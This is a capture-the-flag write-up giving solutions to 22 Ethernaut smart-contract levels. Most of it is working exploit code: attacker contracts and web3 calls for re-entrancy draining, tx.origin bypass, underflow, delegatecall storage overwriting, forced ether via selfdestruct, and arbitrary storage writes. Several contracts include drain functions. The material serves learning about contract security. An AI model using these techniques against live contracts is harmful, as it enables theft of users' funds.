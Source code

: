 # ethernaut-ctf-solutions

<details>
    <summary>🍂 Level 1 - Fallback</summary>

```javascript
// first need to send some ether to contribute():
await contract.contribute({value: toWei("0.0001")})

// then send some raw ether, the fallback function will make us the owner
sendTransaction({from: player, to: instance, value: toWei("0.0001")})

// are we the owner yet?
await contract.owner() == player

// now that we're the owner, we can siphon the funds
await contract.withdraw()

// and double check that the contract has a balance of 0:
await getBalance(instance)
```

</details>

 <details>
    <summary>💣 Level 2 - Fallout</summary>
    
```javascript
 /* constructor */
  function Fal1out() public payable    // <--- typo makes it not actually a constructor

// so just call this and you're the owner
await contract.Fal1out()
```

</details> 

 <details>
    <summary>🛹 Level 3 - Coin flip</summary>

Deploy this guesser contract, using e.g. Remix IDE:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip instance = CoinFlip(address(...));

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    bool coinFlip = blockValue > FACTOR;
    require(instance.flip(coinFlip));
  }
}
```

Then repeatedly invoke the guess() function, calls will only go through when we know they will succeed in the `CoinFlip` contract.

</details> 

 <details>
    <summary>☎️ Level 4 - Telephone</summary>

Deploy this and call `ring_ring()`, we just need a smart contract to act as a buffer so that `msg.sender != tx.origin`. See also [rekt - THORChain](https://rekt.news/thorchain-rekt2/)

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CallMeMaybe {
    Telephone instance = Telephone(address(...));
    
    function ring_ring() public {
        instance.changeOwner(msg.sender);
    }
}
```

</details> 

 <details>
    <summary>💸 Level 5 - Token</summary>
    
```javascript
// trigger an underflow by transferring >20 tokens to any address
await contract.transfer("0xd4F3ae2100b186D5e8e0E41d7930bE7B3a3e9E6C", 100)
```

</details> 

 <details>
    <summary>👉 Level 6 - Delegation</summary>
    
```javascript
// we want to hit the fallback function of the delegator, and pass it the selector of the pwn() function so that it invokes pwn() on the delegate

contract.sendTransaction({
    to: instance, 
    data: web3.eth.abi.encodeFunctionSignature("pwn()")
})

```

</details> 

 <details>
    <summary>🏋️‍♂️ Level 7 - Force</summary>

Relevant chapter in [Mastering Ethereum](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#unexpected-ether)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract TakeMyMoney {
    fallback() external payable {}
    
    function boom(address payable _address) public {
        selfdestruct(_address);
    }
}
```

</details> 

 <details>
    <summary>🏦 Level 8 - Vault</summary>

Find the transaction that was used to create the contract on Etherscan, and look in the state change tab. We can see the value that was stored in the first variable: that's the password, then we just invoke unlock with it:

```javascript
await contract.unlock("0x...")
```

</details> 

 <details>
    <summary>👑 Level 9 - King</summary>

Trying to make this contract the king, it should refuse eth transfers, hence preventing the ownership transfer. Deploy it with 1 ETH, so that it has a starting balance.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;


interface King {
    function _king() external view returns (address payable);
}

contract KingMaker {
    constructor() public payable {}
    
    function kingMe(address kingInstance) public {
        // send ether using a low-level call because send/transfer are limited to 2300 gas
      // send exactly 1 ether, because we need to pass the condition but not exceed the balance of the King contract
        kingInstance.call{value:1 ether}("");
        require(King(kingInstance)._king() == address(this));
    }
    
    function withdraw() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


 <details>
    <summary>🔁 Level 10 - Re-entrancy</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Reentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Withdrawer {
    Reentrance instance = Reentrance(address(...));
    uint amount = 0.1 ether;
    
    constructor() payable {}
    
    // this is where we trigger the re-entrancy bug
    receive() external payable {
        if (address(instance).balance >= amount)  {
            instance.withdraw(amount);
        }
    }
    
    function pullTheTrigger() public {
        instance.donate{value: amount}(address(this));
        instance.withdraw(amount);
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


<details>
    <summary>☝️ Level 11 - Elevator</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract Building {
    Elevator instance = Elevator(address(...));
    
    bool answer = true;
    
  function isLastFloor(uint) external returns (bool) {
      answer = !answer;
      return answer;
  }
 
  function justDoIt() public {
      instance.goTo(42);
  }
}
```

</details> 

<details>
    <summary>🤫 Level 12 - Privacy</summary>

```javascript
// read where data[2] is stored (in the fifth slot since there is some 
packing of smaller arguments going on):

await web3.eth.getStorageAt(instance, 5)

-> "0x658df6fba159ec7a1e678c38c33e7a77dd541772c97aeed1ad580b033885e238"

// turn that into a bytes16, which means calling unlock with the first half:

await contract.unlock('0x658df6fba159ec7a1e678c38c33e7a77')

```

</details> 

<details>
    <summary>💂‍♂️ Level 13 - Gatekeeper one</summary>

For the key value itself, need to replace the last 2 bytes with the end of the address used to send the transaction.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GatekeeperOne {
  function enter(bytes8 _gateKey) external returns(bool);
}

contract Enterer {
    GatekeeperOne instance = GatekeeperOne(address(...));
    event ErrorLog(string reason);

    // getting the gas left just right was difficult, I took some inspiration online to "fuzz" with the for loop
    function pullTheTrigger() public returns(bool) {
        for (uint256 i = 0; i < 120; i++) {
          try instance.enter{gas:i + 150 + 8191 * 3}(0xffffffff0000....) returns(bool result) {
              if (result) {
                  return result;
              }
          } catch Error(string memory reason) {
            emit ErrorLog(reason);
          } catch (bytes memory /*lowLevelData*/) {
            // This is executed in case revert() was used.
            emit ErrorLog("not the right amount of gas");
          }
        }
        return false;
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>🐕 Level 14 - Gatekeeper two</summary>

```solidity
// SPDX-License-Identifier: MIT

// this is important, with newer Solidity versions, 
// `uint64(0) - 1` will fail because it relies on an underflow
pragma solidity ^0.6.0; 

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns(bool);
}

contract Enterer {
    constructor() public {
        uint64 hashedMe = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 key = ~hashedMe;
        uint64 expected = uint64(0) - 1;
        
        require(hashedMe ^ key == expected, "wrong key");
        
        GatekeeperTwo instance = GatekeeperTwo(address(...));
        instance.enter(bytes8(key));
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>👌 Level 15 - Naught coin</summary>

The timelock only applies to `transfer`, not `transferFrom` so we need to go with `approve` -> `transferFrom`

```solidity
> balance = (await contract.balanceOf(player)).toString()
"1000000000000000000000000"

> await contract.approve(player, '1000000000000000000000000')
> await contract.transferFrom(player, '0x...', '1000000000000000000000000')

> balance = (await contract.balanceOf(player)).toString()
"0"
```

</details> 

<details>
    <summary>⏰ Level 16 - Preservation</summary>

Deploy this first:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract EvilDoer {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
        timeZone1Library = address(this);
        timeZone2Library = address(this);
        owner = tx.origin;
    }

    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

```javascript
// then run this to stomp the address of timeZone1Library with evildoer
await contract.setFirstTime(evildoer);

// then let evildoer stomp the owner
await contract.setFirstTime(42);
```

</details> 

<details>
    <summary>⛑️ Level 17 - Recovery</summary>
Use etherscan to find the address the 0.5 ether was sent to.

```javascript
// getting the function selector:
web3.eth.abi.encodeFunctionSignature('destroy(address)')
"0x00f55d9d"

// getting the whole function invocation, including the selector:
web3.eth.abi.encodeFunctionCall({
   name: 'destroy',
   type: 'function',
   inputs: [{
       type: 'address',
       name: '_to'
   }]
}, [player]);

"0x00f55d9d000000000000000000000000....."

// making a low level call to self destruct it:
web3.eth.sendTransaction({from: player, to: tokenContract, data: "0x00f55d9d000000000000000000000000...."})
```

</details> 

<details>
    <summary>🧙‍♂️ Level 18 - Magic number</summary>

Let's make the tiniest solver in Yul:

```yul
// Solver.yul
object "Solver" {
    code {
        mstore(0x20, 42)
        return(0x20, 32)
    }
}
```

Build it:

```
> solc --strict-assembly Solver.yul

Warning: Yul is still experimental. Please use the output with care.

======= Solver.yul (EVM) =======

Pretty printed source:
object "Solver" {
    code {
        mstore(0x20, 42)
        return(0x20, 32)
    }
}


Binary representation:
602a60205260206020f3

Text representation:
    /* "Solver.yul":50:52   */
  0x2a
    /* "Solver.yul":44:48   */
  0x20
    /* "Solver.yul":37:53   */
  mstore
    /* "Solver.yul":75:77   */
  0x20
    /* "Solver.yul":69:73   */
  0x20
    /* "Solver.yul":62:78   */
  return
```

Take note of the binary representation. We want to deploy that, which is a bit tricky because we need to send a transaction to address 0 not with this code directly, but with code that returns this binary representation. I took the opportunity to learn about deployment code by writing a [raw_deployer](https://github.com/karmacoma-eth/yolo-evm#raw_deployerpy) script:

``` shell
> python raw_deployer.py 602a60205260206020f3       
600a8061000d6000396000f3fe602a60205260206020f3
```

Now we got the init code, we can create the contract:

```javascript
web3.eth.sendTransaction({
    from: player, 
/* no to address as we are creating a contract */ 
    data: "600a8061000d6000396000f3fe602a60205260206020f3"
})
```

Now just set the solver on the contract and we're done:

```javascript
await contract.setSolver('0x...')
```

</details> 


<details>
    <summary>👽 Level 19 - Alien codex</summary>

Relevant [Solidity docs](https://docs.soliditylang.org/en/v0.8.5/internals/layout_in_storage.html#mappings-and-dynamic-arrays):

>>> "Assume the storage location of the mapping or array ends up being a slot p after applying the storage layout rules. ... Array data is located starting at keccak256(p) and it is laid out in the same way as statically-sized array data would: One element after the other, potentially sharing storage slots if the elements are not longer than 16 bytes."

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface AlienCodex {
  function make_contact() external;
  function record(bytes32 _content) external;
  function retract() external;
  function revise(uint i, bytes32 _content) external;
}

contract Underhanded {
    AlienCodex instance = AlienCodex(address(0x...));
    event ErrorLog(string reason);

    function pullTheTrigger() public {
        instance.make_contact();
        
        // we need to underflow the length of the array, which is now 0xffffffff....
        instance.retract();
        
        // now we get to modify any storage we want
        // the base storage of the array is at 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
        // so to overwrite storage at slot 0, we calculate the index as hex(0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + 1)
        instance.revise(
            0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a,
            0x0000000000000000000000008830c393b2ed864Bb3c1A2FB9Fce8dA83f6db66c
        );
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>🙅‍♂️ Level 20 - Daniel</summary>
Just burn all the gas available in the receive() function since they didn't specify a gas stipend like `call.gas(100000).value()`

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract Burner {
    event ErrorLog(string reason);

    receive() payable external {
        uint i = 0;
        while (gasleft() > 10) {
            i++;
        }
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 

<details>
    <summary>🛍️ Level 21 - Shop</summary>
Idea: use the fact the Shop sets `sold = true` between the two calls: they paid for a storage change, and maybe we can look it up for cheap. However even with the following Solidity code I wasn't able to get it to run under the 3000 gas limit:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Shop {
  function isSold() external view returns(bool);
  function buy() external;
}

contract Buyer {
    Shop shop = Shop(address(0x...));

    function price() external view returns (uint) {
        return shop.isSold{gas: 2000}() ? 42 : 200;
    }
    
    function pullTheTrigger() public {
        shop.buy();
    }
}
```

It ended up working with the following Yul code:

```yul
object "Buyer" {
    code {
        // Deploy the contract
        datacopy(0, dataoffset("runtime"), datasize("runtime"))
        return(0, datasize("runtime"))
    }

    object "runtime" {
        code {
            // Dispatcher
            switch selector()

            case 0xa035b1fe /* "price()" */ {
                let price := 42
                if eq(isSold(), 0) {
                    price := 200
                }
                returnUint(price)
            }

            case 0xb760d418 /* "pullTheTrigger(address)" */ {
                buy()
                stop()
            }

            default {
                revert(0, 0)
            }

            /* ---------- calldata decoding functions ----------- */
            function selector() -> s {
                s := div(calldataload(0), 0x100000000000000000000000000000000000000000000000000000000)
            }

            /* ---------- calldata encoding functions ---------- */
            function returnUint(v) {
                mstore(0, v)
                return(0, 0x20)
            }

            /* ---------- utility functions ---------- */
            function isSold() -> sold {
                mstore(0, 0xe852e741) /* 'isSold()' */
                let succeeded := call(gas(), 0x4cb5aee9C212ae36C415A990a8913e2b29fc312C, 0, 28, 4, 0x20, 0x20)
                sold := mload(0x20)
            }

            function buy() {
                mstore(0, 0xa6f2ae3a) /* 'buy()' */
                let succeeded := call(gas(), 0x4cb5aee9C212ae36C415A990a8913e2b29fc312C, 0, 28, 4, 0, 0)
            }
        }
    }
}
```

Compile it:

```
> solc --strict-assembly --optimize Buyer.yul
```

Note the binary representation, deploy it:

```javascript
web3.eth.sendTransaction({from: player, data: '608f8061000f600039806000f350fe6000803560e01c63a035b1fe811460215763b760d41881146064578182fd608c565b602a63e852e7418352602060206004601c86734cb5aee9c212ae36c415a990a8913e2b29fc312c5af150602051151560585760c890505b80835250602082f3608c565b63a6f2ae3a825281826004601c85734cb5aee9c212ae36c415a990a8913e2b29fc312c5af150005b5050'})

// make sure the contract is fresh:
await contract.isSold()
-> false

// trigger the attack!
web3.eth.sendTransaction({from: player, to: '0x...', data: 'b760d418', gas: 100000})

await contract.isSold()
-> true

(await contract.price()).toString()
-> 42 
```

</details> 

<details>
    <summary>⚖️ Level 22 - Dex</summary>

Really anticlimactic final challenge, just keep swapping back and forth. The contract doesn't calculate the number of outgoing tokens properly, so it's losing liquidity every time 🤷‍♂️
</details> 
